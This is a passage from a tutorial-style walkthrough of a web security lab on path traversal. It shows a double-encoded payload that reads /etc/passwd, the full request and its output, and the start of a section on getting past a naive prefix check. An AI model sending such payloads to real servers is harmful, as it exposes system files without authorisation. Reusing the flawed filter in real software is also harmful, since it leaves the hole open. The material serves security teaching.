 ..%252f..%252f..%252fetc/passwd

Final request example:  
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2

Host: \<your-lab-id\>.web-security-academy.net

**🚀Send the Request**

You should see contents like:

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

...

**💥Boom you solve the lab**

## **🧠 Why This Worked: Superfluous URL-Decoding**

### **🧱 Application Behavior:**

* **Blocks ../ or %2e%2e%2f**  
* Then **URL-decodes** input **after** filtering

## **🛠️ Real-Life Analogy**

🔒 A guard checks your bag for **guns**. You hide it inside a box labeled **"gift"**.

* Guard checks the bag — sees "gift" → allows it ✅  
* Later, you open the gift → it’s a gun 😈

That’s what **filtering before decoding** does — the danger is still hidden inside.

### **🧨 Your Payload:**

..%252f..%252f..%252fetc/passwd

* %252f \= double-encoded /

* Decodes once to %2f, then again to /

* Resulting in effective ../../../etc/passwd

#  **Base path prefix bypass:**

## **🛣️ Base Path Prefix Bypass (Traversal Inside a Trusted Prefix)**

### **🔐 What the App Tries to Do:**

A developer might try to "secure" path access like this:

user\_input \= request.args\['filename'\]  
if not user\_input.startswith('/var/www/images'):  
    return "Access Denied"
